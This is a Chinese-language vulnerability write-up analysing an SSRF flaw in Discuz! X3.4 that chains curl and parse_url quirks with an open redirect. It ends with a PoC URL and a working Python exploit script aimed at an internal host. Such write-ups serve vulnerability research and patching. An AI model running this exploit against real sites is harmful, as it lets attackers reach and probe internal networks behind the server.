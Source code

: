 Discuz! X3.4 前台ssrf
=====================

一、漏洞简介
------------

DDiscuz! X3.4
source/module/misc/misc\_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

**本地ssrf**

/source/module/misc/misc\_imgcropper.php 55行

        require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {      showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));    }
    $prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb

source/class/class\_image.php 51行

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix); }

拼接后的参数作为`$source`又传进了init函数

source/class/class\_image.php 118行

        function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;        if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');            if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的,
`$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org\`即可继续执行。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId25.png)

source/function/function\_core.php 199行

    function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}

进入dfsockopen函数后，我们构造的字符串变为\$url，然后传入了\_dfsockopen函数。

dz/source/function/function\_filesock.php 31行

image

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse\_url解析了一次\$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId26.png)

其\$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId27.png)

在php的curl中我们尝试访问://dz/forum.php

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId28.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId29.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class\_member.php 310行

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId31.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function\_core.php 1498行

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId32.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，\$\_SERVER\['HTTP\_HOST'\]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId33.png)

站内ssrf-\>前台get型的任意url跳转-\>ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse\_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

    htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1

### python 脚本

    # coding=utf-8
    import requests
    import re
    from urllib.parse import urlparse, quote
    from urllib import parse
    if __name__ == "__main__":
        url = "http://192.168.66.129/dz/"
        ssrf_target = "192.168.0.36:6666"
        path = urlparse(url).path
        payload = quote(
            "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
                ssrf_target=ssrf_target))
        s = requests.Session()
        html = s.get(url).text
        searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
        formhash = searchObj.group(1)
        rs = s.post(
            url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
                formhash=formhash, path=path, payload=payload))
        exit()

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4前台ssrf/media/rId36.png)

参考链接
--------

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4前台有限制SSRF漏洞/index.html)
